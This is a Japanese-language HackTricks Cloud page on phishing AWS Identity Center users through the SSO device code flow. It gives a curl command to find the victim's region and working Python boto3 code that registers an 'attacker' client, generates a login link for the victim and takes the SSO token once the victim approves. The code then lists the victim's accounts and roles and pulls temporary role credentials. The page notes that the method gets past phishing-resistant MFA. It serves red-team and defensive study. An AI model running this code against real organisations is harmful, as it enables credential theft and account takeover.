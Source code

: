 # AWS - Identity Center & SSO Unauthenticated Enum

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **PRを提出してハッキングトリックを共有する** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリ。

</details>
{% endhint %}

## AWS Device Code Phishing

[**このブログ記事**](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)で最初に提案されたように、AWS SSOを使用しているユーザーに**リンク**を送信し、**ユーザーが承認**すると、攻撃者は**トークンを取得してユーザーになりすまし**、**Identity Center**でユーザーがアクセスできるすべてのロールにアクセスできるようになります。

この攻撃を実行するための要件は次のとおりです：

* 被害者が**Identity Center**を使用していること
* 攻撃者が被害者が使用している**サブドメイン** `<victimsub>.awsapps.com/start` を知っていること

前述の情報だけで、**攻撃者はユーザーにリンクを送信**し、**承認**されると**攻撃者はAWSユーザーアカウントにアクセス**できるようになります。

### 攻撃

1. **サブドメインの特定**

攻撃者の最初のステップは、被害者の会社がIdentity Centerで使用しているサブドメインを特定することです。これは**OSINT**や**推測 + BF**を通じて行うことができます。ほとんどの会社はここで自社の名前やその変形を使用しているためです。

この情報を使って、Identity Centerが設定されたリージョンを取得することが可能です:
```bash
curl https://victim.awsapps.com/start/ -s | grep -Eo '"region":"[a-z0-9\-]+"'
"region":"us-east-1
```
2. **被害者のためのリンクを生成して送信**

被害者が認証できるようにAWS SSOログインリンクを生成するために、以下のコードを実行します。\
デモのために、このコードをpythonコンソールで実行し、後でトークンを取得するためにいくつかのオブジェクトが必要になるので、コンソールを終了しないでください:
```python
import boto3

REGION = 'us-east-1' # CHANGE THIS
AWS_SSO_START_URL = 'https://victim.awsapps.com/start' # CHANGE THIS

sso_oidc = boto3.client('sso-oidc', region_name=REGION)
client = sso_oidc.register_client(
clientName = 'attacker',
clientType = 'public'
)

client_id = client.get('clientId')
client_secret = client.get('clientSecret')
authz = sso_oidc.start_device_authorization(
clientId=client_id,
clientSecret=client_secret,
startUrl=AWS_SSO_START_URL
)

url = authz.get('verificationUriComplete')
deviceCode = authz.get('deviceCode')
print("Give this URL to the victim: " + url)
```
被害者にリンクを送信し、あなたの素晴らしいソーシャルエンジニアリングスキルを使ってください！

3. **被害者がリンクを承認するのを待つ**

被害者が**すでにAWSにログインしている場合**、権限を付与することを承認するだけで済みます。ログインしていない場合は、**ログインしてから権限を付与することを承認する**必要があります。\
現在のプロンプトはこのようになっています：

<figure><img src="../../../.gitbook/assets/image (343).png" alt="" width="311"><figcaption></figcaption></figure>

4. **SSOアクセス・トークンを取得する**

被害者がプロンプトを承認した場合、次のコードを実行して**ユーザーになりすましてSSOトークンを生成**します：
```python
token_response = sso_oidc.create_token(
clientId=client_id,
clientSecret=client_secret,
grantType="urn:ietf:params:oauth:grant-type:device_code",
deviceCode=deviceCode
)
sso_token = token_response.get('accessToken')
```
SSOアクセス トークンは**8時間有効**です。

5. **ユーザーを偽装する**
```python
sso_client = boto3.client('sso', region_name=REGION)

# List accounts where the user has access
aws_accounts_response = sso_client.list_accounts(
accessToken=sso_token,
maxResults=100
)
aws_accounts_response.get('accountList', [])

# Get roles inside an account
roles_response = sso_client.list_account_roles(
accessToken=sso_token,
accountId=<account_id>
)
roles_response.get('roleList', [])

# Get credentials over a role

sts_creds = sso_client.get_role_credentials(
accessToken=sso_token,
roleName=<role_name>,
accountId=<account_id>
)
sts_creds.get('roleCredentials')
```
### フィッシング不可能なMFAをフィッシング

前述の攻撃が**「フィッシング不可能なMFA」（webAuth）が使用されている場合でも機能する**ことを知るのは楽しいです。これは、前述の**ワークフローが使用されるOAuthドメインを離れない**ためです。他のフィッシング攻撃ではユーザーがログインドメインを偽装する必要がありますが、この場合、デバイスコードワークフローは**デバイスがコードを知っている**ため、ユーザーは異なるマシンでもログインできます。プロンプトが承認されると、デバイスは**初期コードを知っているだけで**ユーザーの**資格情報を取得**できます。

詳細については[**この投稿をチェック**](https://mjg59.dreamwidth.org/62175.html)してください。

### 自動ツール

* [https://github.com/christophetd/aws-sso-device-code-authentication](https://github.com/christophetd/aws-sso-device-code-authentication)
* [https://github.com/sebastian-mora/awsssome\_phish](https://github.com/sebastian-mora/awsssome\_phish)

## 参考文献

* [https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/](https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/)
* [https://ruse.tech/blogs/aws-sso-phishing](https://ruse.tech/blogs/aws-sso-phishing)
* [https://mjg59.dreamwidth.org/62175.html](https://mjg59.dreamwidth.org/62175.html)
* [https://ramimac.me/aws-device-auth](https://ramimac.me/aws-device-auth)

{% hint style="success" %}
AWSハッキングを学び、練習する:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、練習する: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェック！
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)をフォローしてください。
* **ハッキングトリックを共有するには、** [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。

</details>
{% endhint %}
